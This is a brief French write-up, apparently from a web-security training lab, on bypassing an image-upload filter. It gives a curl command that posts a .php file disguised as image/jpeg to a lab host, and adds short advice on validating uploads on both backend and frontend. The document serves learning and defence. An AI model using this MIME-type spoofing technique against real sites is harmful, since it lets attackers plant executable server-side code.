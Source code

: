 <h1>Faille</h1>
 
Sur la page upload d'image
On peut POST sur le formulaire un fichier `.php` en le faisant passer par une image.
exemple (sur cet exemple je vais utiliser curl mais c'est possible de le faire avec d'autre méthodes)
 
`curl -X POST 'http://10.12.100.25/?page=upload' -F 'uploaded=@/Users/asalah/test.php;type=image/jpeg' -F 'Upload=Upload'`
 
Donc on a utilisé curl avec les deux inputs envoyés en spécifiant le `type=image/jpeg` pour le fichier `.php`.
 
<h1>Éviter cette faille</h1>
 
Pour éviter cette faille il faut vérifier bien que c'est une image sur les 2 coté backend et frontend

<h1>Ressources</h1>

Curl: https://mkyong.com/spring/curl-post-request-examples/